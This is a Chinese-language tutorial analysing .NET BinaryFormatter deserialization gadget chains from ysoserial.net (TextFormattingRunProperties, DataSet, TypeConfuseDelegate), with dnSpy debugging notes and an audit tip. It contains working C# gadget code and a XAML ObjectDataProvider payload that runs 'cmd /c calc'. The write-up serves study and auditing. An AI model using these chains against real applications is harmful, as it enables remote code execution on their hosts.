# BinaryFormatter

BinaryFormatter将对象序列化为二进制流，命名空间位于`System.Runtime.Serialization.Formatters.Binary`。[微软文档](https://docs.microsoft.com/zh-cn/dotnet/standard/serialization/binaryformatter-security-guide)也已经标注了使用BinaryFormatter会造成严重的RCE漏洞。

# 命名空间结构

观察其实现，发现其有多个序列化和反序列化方法，并实现IRemotingFormatter, IFormatter两个接口，序列化和反序列化的用法，以及代理选择器在第一节[dotnet serialize 101](./dotnet-serialize-101.md)中已经讲解过，这里不再赘述。



# 攻击链

ysoserial.net中所有的gadget都支持BinaryFormatter，其原因必须提到TextFormattingRunProperties链，也得益于TextFormattingRunProperties链条而衍生出多个其他链。接下来我们来看几个ysoserial.net的反序列化链。

## TextFormattingRunProperties

查看ysoserial.net中TextFormattingRunPropertiesGenerator生成类的定义，发现TextFormattingRunPropertiesMarshal类对象实现了对TextFormattingRunProperties类的重定义序列化过程，将`_xaml`字段赋值给`ForegroundBrush`字段。



使用dnspy反编译看下ForegroundBrush字段到底有什么猫腻。该DLL位置在ysoserial.net工具中就有，路径为`ysoserial.net\ysoserial\dlls\Microsoft.PowerShell.Editor.dll`。

测试代码如下，编译出来使用dnspy调试。

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using Microsoft.VisualStudio.Text.Formatting;
namespace BinaryFormatterSerialize
{
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }

        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string xaml)
        {
            _xaml = xaml;
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            string xaml_payload = File.ReadAllText(@"C:\Users\ddd\source\repos\xml.txt");
            TextFormattingRunPropertiesMarshal payload = new TextFormattingRunPropertiesMarshal(xaml_payload);

            using (MemoryStream memoryStream = new MemoryStream())
            {
                // 构建formatter
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(memoryStream, payload);
                memoryStream.Position = 0;
                binaryFormatter.Deserialize(memoryStream);
            }
            Console.ReadKey();
        }
    }
}
```

```xml
<?xml version="1.0" encoding="utf-16"?>
<ObjectDataProvider MethodName="Start" IsInitialLoadEnabled="False" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
  <ObjectDataProvider.ObjectInstance>
    <sd:Process>
      <sd:Process.StartInfo>
        <sd:ProcessStartInfo Arguments="/c calc" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="cmd" />
      </sd:Process.StartInfo>
    </sd:Process>
  </ObjectDataProvider.ObjectInstance>
</ObjectDataProvider>
```

引用`ysoserial.net\ysoserial\dlls\Microsoft.PowerShell.Editor.dll`时项目的dotnet版本应为dotnet4.5

找到命名空间`Microsoft.VisualStudio.Text.Formatting`，在序列化构造函数中下一个断点。



发现TextFormattingRunProperties实现ISerializable接口，在其序列化的构造函数中，进行`this.GetObjectFromSerializationInfo("ForegroundBrush", info)`。跟进看下



看见了什么？`XamlReader.Parse(@string)`，那这就接上了我们前文[XmlSerializer](./XmlSerializer.md)中的ObjectDataProvider的链。



如此一来整个链就通了：

1. 自写一个TextFormattingRunPropertiesMarshal类实现ISerializable接口
2. 在GetObjectData序列化时给ForegroundBrush字段赋值为xaml的payload，并且将对象类型赋值为TextFormattingRunProperties类。
3. 在反序列化时触发反序列化构造函数
4. 反序列化构造函数触发XamlReader.Parse(payload) RCE

限制在于Microsoft.PowerShell.Editor.dll。原作者说明：

> 该库是PowerShell的一部分，该PowerShell已预安装在从Windows Server 2008 R2和Windows 7开始的所有Windows版本中。

## DataSet

看下ysoserial.net的payload

```csharp
[Serializable]
public class DataSetMarshal : ISerializable
{
    byte[] _fakeTable;

    public void GetObjectData(SerializationInfo info, StreamingContext context)
    {
        info.SetType(typeof(System.Data.DataSet));
        info.AddValue("DataSet.RemotingFormat", System.Data.SerializationFormat.Binary);
        info.AddValue("DataSet.DataSetName", "");
        info.AddValue("DataSet.Namespace", "");
        info.AddValue("DataSet.Prefix", "");
        info.AddValue("DataSet.CaseSensitive", false);
        info.AddValue("DataSet.LocaleLCID", 0x409);
        info.AddValue("DataSet.EnforceConstraints", false);
        info.AddValue("DataSet.ExtendedProperties", (System.Data.PropertyCollection)null);
        info.AddValue("DataSet.Tables.Count", 1);
        info.AddValue("DataSet.Tables_0", _fakeTable);
    }

    public void SetFakeTable(byte[] bfPayload)
    {
        _fakeTable = bfPayload;
    }

    public DataSetMarshal(byte[] bfPayload)
    {
        SetFakeTable(bfPayload);
    }

    public DataSetMarshal(object fakeTable):this(fakeTable, new InputArgs())
    {
        // This won't use anything we might have defined in ysoserial.net BinaryFormatter process (such as minification)
    }

    public DataSetMarshal(object fakeTable, InputArgs inputArgs)
    {
        MemoryStream stm = new MemoryStream();
        if (inputArgs.Minify)
        {
            ysoserial.Helpers.ModifiedVulnerableBinaryFormatters.BinaryFormatter fmtLocal = new ysoserial.Helpers.ModifiedVulnerableBinaryFormatters.BinaryFormatter();
            fmtLocal.Serialize(stm, fakeTable);
        }
        else
        {
            BinaryFormatter fmt = new BinaryFormatter();
            fmt.Serialize(stm, fakeTable);
        }

        SetFakeTable(stm.ToArray());
    }

    public DataSetMarshal(MemoryStream ms)
    {
        SetFakeTable(ms.ToArray());
    }
}

public class DataSetGenerator:GenericGenerator
{
    public override object Generate(string formatter, InputArgs inputArgs)
    {

        byte[] init_payload = (byte[]) new TextFormattingRunPropertiesGenerator().GenerateWithNoTest("BinaryFormatter", inputArgs);

        DataSetMarshal payloadDataSetMarshal = new DataSetMarshal(init_payload);

        if (formatter.Equals("binaryformatter", StringComparison.OrdinalIgnoreCase)
            || formatter.Equals("losformatter", StringComparison.OrdinalIgnoreCase)
            || formatter.Equals("soapformatter", StringComparison.OrdinalIgnoreCase))
        { 
            return Serialize(payloadDataSetMarshal, formatter, inputArgs);
        }
        else
        {
            throw new Exception("Formatter not supported");
        }
    }
}
```

生成序列化数据的GetObjectData方法做了以下操作

1. type设置为System.Data.DataSet
2. DataSet.RemotingFormat 设置为binary格式
3. 将DataSet.Tables_0设置为序列化之后的TextFormattingRunPropertiesGenerator byte数组
4. DataSet.Tables.Count 赋值为1

那么反序列化的时候我们需要关注DataSet类的序列化构造函数，分析如下



在DataSet的序列化构造函数采用了this()方法重载`DataSet(SerializationInfo info, StreamingContext context, bool ConstructSchema)`

默认赋值serializationFormat和schemaSerializationMode分别为Xml和IncludeSchema。然后遍历info信息判断赋值DataSet.RemotingFormat为Binary



SchemaSerializationMode.DataSet在我们构造的反序列化对象中并不存在，所以仍会保持值为`SchemaSerializationMode.IncludeSchema`。当DataSet.RemotingFormat为Binary时会进入`this.DeserializeDataSet(info, context, serializationFormat, schemaSerializationMode);`



这个方法中会反序列化Schema和对应的Data



当schemaSerializationMode==SchemaSerializationMode.IncludeSchema时会进行BinaryFormatter.Deserialize()，条件满足，所以这时候需要看下memoryStream中buffer的来源。

```csharp
byte[] buffer = (byte[])info.GetValue(string.Format(CultureInfo.InvariantCulture, "DataSet.Tables_{0}", new object[] { i }), typeof(byte[]));
```

其中i来自`int @int = info.GetInt32("DataSet.Tables.Count");`，所以`info.GetValue()`取的是DataSet.Tables_0字段的值，类型为byte数组。而在294行还有一步`this.DeserializeDataSetProperties(info, context);`



在这里get了一些结构的信息，这里我们构造的时候也要加上，不然294行会报错，导致走不到Deserialize()。

那么现在就清晰了，DataSet.Tables_0字段的byte数组会被自动反序列化，我们可以将TextFormattingRunProperties生成的byte数组赋值给DataSet.Tables_0字段，然后就可以RCE了。

整个流程：

1. 生成TextFormattingRunProperties的payload转byte数组存放到DataSet.Tables_0字段
2. 填充DataSet的其他字段满足反序列化条件使其不报错
3. 进入DataSet的反序列化构造函数DeserializeDataSet 该函数自动反序列化其中的Schema和Data
4. 在DeserializeDataSetSchema()中获取DataSet.Tables_0字段的值进行BinaryFormatter.Deserialize()。

这条链的限制也很明了，依赖于TextFormattingRunProperties。

## TypeConfuseDelegate

TypeConfuseDelegate中文翻译过来叫类型混淆委托。那么学习这条链之前必须要了解什么是委托。

### 委托和多播委托

委托本质上是一个存有方法引用的变量，我们来创建一个委托。

```csharp
class Program
{
    public delegate void MyDelegate(string s);

    public static void PrintString(string s)
    {
        Console.WriteLine(s);
    }
    static void Main(string[] args)
    {
        MyDelegate myDelegate = new MyDelegate(PrintString);
        myDelegate("hello from delegate");
    }
}
```

**需要注意的是传递给委托的方法签名必须和定义的委托签名一致，即返回值、参数一致。**

通过new MyDelegate(PrintString)将PrintString的引用赋值给myDelegate，然后使用myDelegate("hello from delegate")传递参数。myDelegate持有对PrintString的引用。

多播委托则是持有对委托列表的引用，把多播委托想象成一个列表，将委托的方法加入列表中，多播委托会按顺序依次调用每个委托。

```csharp
class Program
{
    public delegate void MyDelegate(string s);

    public static void PrintString(string s)
    {
        Console.WriteLine($"print {s} to screen.");
    }
    public static void WriteToFile(string s)
    {
        Console.WriteLine($"write {s} to file.");
    }
    static void Main(string[] args)
    {
        MyDelegate myDelegate = new MyDelegate(PrintString);
        MyDelegate myDelegate1 = new MyDelegate(WriteToFile);
        myDelegate += myDelegate1;
        myDelegate("hello");
    }
}
// 输出
print hello to screen.
write hello to file.
```

通过+=的形式添加多个委托，执行myDelegate("hello")调用了PrintString和WriteToFile两个方法。不仅仅可以用+=的形式来合并委托，还可以用MulticastDelegate.Combine(printString, writeFile)的形式。

```csharp
static void Main(string[] args)
{
    MyDelegate printString = new MyDelegate(PrintString);
    MyDelegate writeFile = new MyDelegate(WriteToFile);
    Delegate twoDelegte = MulticastDelegate.Combine(printString, writeFile);
    twoDelegte.DynamicInvoke("something");
    Delegate[] delegates = twoDelegte.GetInvocationList();
    foreach (var item in delegates)
    {
        Console.WriteLine(item.Method);
    }
}

// 输出
print something to screen.
write something to file.
Void PrintString(System.String)
Void WriteToFile(System.String)
```

通过多播委托的twoDelegte.GetInvocationList()可以得到委托的列表。

接下来来看TypeConfuseDelegate这条链。



在ysoserial.net中的实现是通过`SortedSet<T>`和Comparer进行利用的。SortedSet是一个可以排序的泛型集合，既然涉及到排序，那么肯定涉及到排序的规则，即比较器Comparer。

### SortedSet和Comparer

先来看微软文档中非常简单的一个例子

```csharp
using System;
using System.Collections;
using System.Collections.Generic;

namespace BinaryFormatterSerialize
{
    public class ByFileExtension : IComparer<string>
    {
        string xExt, yExt;

        CaseInsensitiveComparer caseiComp = new CaseInsensitiveComparer();

        public int Compare(string x, string y)
        {
            // Parse the extension from the file name.
            xExt = x.Substring(x.LastIndexOf(".") + 1);
            yExt = y.Substring(y.LastIndexOf(".") + 1);

            // Compare the file extensions.
            int vExt = caseiComp.Compare(xExt, yExt);
            if (vExt != 0)
            {
                return vExt;
            }
            else
            {
                // The extension is the same,
                // so compare the filenames.
                return caseiComp.Compare(x, y);
            }
        }
    }
    class Program
    {
        public static void Main(string[] args)
        {
            var set = new SortedSet<string>(new ByFileExtension());
            set.Add("test.c");
            set.Add("test.b");
            set.Add("test.a");
            foreach (var item in set)
            {
                Console.WriteLine(item.ToString());
            }
            Console.ReadKey();
        }
    }
}

// 输出
test.a
test.b
test.c
```

可见向set集合中添加的test.c、test.b、test.a按照后缀被自动排序。这里需要注意，自动排序的前提是必须要有两个以上的元素，即第二次添加的时候才会自动排序。

再来看自写的ByFileExtension()比较器，实现了`IComparer<string>`接口，重写Compare()方法，返回一个int值。

此时回头看ysoserial.net中的代码

```csharp
Delegate da = new Comparison<string>(String.Compare);
Comparison<string> d = (Comparison<string>)MulticastDelegate.Combine(da, da);
IComparer<string> comp = Comparer<string>.Create(d);
SortedSet<string> set = new SortedSet<string>(comp);
```

用到了一个Comparison类



该类继承自`Comparer<T>`抽象类，其Compare接收两个泛型参数，构造函数中赋值`_comparison`，`_comparison`是一个`Comparison<in T>`委托类型，其函数签名与比较函数相同。



而`Comparer<T>`抽象类实现了`IComparer<T>`接口



两个类均可用来序列化。

此时思考一下，Process.Start中有多个重载。



如果我们将Process.Start设置为比较器，那么向集合中添加的值就是Process.Start的参数，由此来进行命令执行。在委托中我们提到，委托的方法签名和委托必须一致，而对于`SortedSet<string> `类来说，其比较函数类型为：

```
int Comparison<in T>(T x, T y);
```

而Process.Start()的是：

```
public static Process Start(string fileName, string arguments);
```

两个比较函数的返回类型不一致，一个是Process，一个是int，如果直接用Process.Start作为比较器，会编译失败。那么这个时候我们就需要借助多播委托了。

```csharp
// 创建一个string的比较器
Delegate da = new Comparison<string>(String.Compare);
// 用两个string的比较器合并为一个多播委托
Comparison<string> d = (Comparison<string>)MulticastDelegate.Combine(da, da);
// Create()函数返回new ComparisonComparer<T>(d)
IComparer<string> comp = Comparer<string>.Create(d);
// 将ComparisonComparer赋值给SortedSet的比较器
SortedSet<string> set = new SortedSet<string>(comp);
// set.Add("cmd.exe")
set.Add(inputArgs.CmdFileName);
// set.Add("calc")
set.Add(inputArgs.CmdArguments);
// 反射修改_invocationList
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);
object[] invoke_list = d.GetInvocationList();
// 修改_invocationList 添加 Process::Start(string, string)
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(d, invoke_list);
```

至于为什么多播委托可以解决方法签名不一致的问题，原作者给出的解释如下：

> The only weird thing about this code is TypeConfuseDelegate. It’s a long standing issue that .NET delegates don’t always enforce their type signature, especially the return value. In this case we create a two entry multicast delegate (a delegate which will run multiple single delegates sequentially), setting one delegate to String::Compare which returns an int, and another to Process::Start which returns an instance of the Process class. This works, even when deserialized and invokes the two separate methods. It will then return the created process object as an integer, which just means it will return the pointer to the instance of the process object.

简单理解就是多播委托传递的是指针。

在SortedSet中OnDeserialization会在反序列化时触发，调用Add函数



而在Add的时候，经过多次重载调用了比较器的Compare()方法。即我们反射修改的Process.Start(string,string)



整个链条



至此分析就结束了。另外需要注意的是，`Comparer<string>.Create(c)`该函数在dotnet4.5中才出现，低版本的dotnet无法利用成功。

# 审计



BinaryFormatter有多个反序列化方法重载，审计时应多加关注。

# 后文

本节讲解了BinaryFormatter在反序列化中的使用及TextFormattingRunProperties和DataSet两条反序列化利用链。